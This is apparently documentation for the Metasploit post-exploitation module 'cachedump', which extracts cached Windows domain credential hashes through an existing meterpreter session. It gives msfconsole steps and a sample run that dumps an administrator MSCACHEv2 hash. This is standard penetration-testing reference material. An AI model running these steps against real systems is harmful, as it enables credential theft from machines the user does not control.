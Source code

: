 ## Vulnerable Application

This module uses the registry to extract the stored domain hashes that have been cached as a result of a GPO setting. The default setting on Windows is to store the last ten successful logins.

## Verification Steps
  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/cachedump```
  4. Do: ```set SESSION <session id>```
  6. Do: ```run```

## Options

  **SESSION**

  The session to run this module on.


## Scenarios

### Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.6:49184) at 2019-12-11 12:51:59 -0700

  msf > use post/windows/gather/cachedump
  msf post(windows/gather/cachedump) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/cachedump) > run

    [*] Executing module against TEST-PC
    [*] Cached Credentials Setting: 10 - (Max is 50 and 0 disables, and 10 is default)
    [*] Obtaining boot key...
    [*] Obtaining Lsa key...
    [*] Vista or above system
    [*] Obtaining NL$KM...
    [*] Dumping cached credentials...
    [*] Hash are in MSCACHE_VISTA format. (mscash2)
    [+] MSCACHE v2 saved in: /root/.msf4/loot/20191211134214_default_192.168.1.6_mscache2.creds_626325.txt
    [*] John the Ripper format:
    # mscash2
    administrator:$DCC2$10240#administrator#89f253291a4b53a41c94057d644cbd1d::

    [*] Post module execution completed
  ```
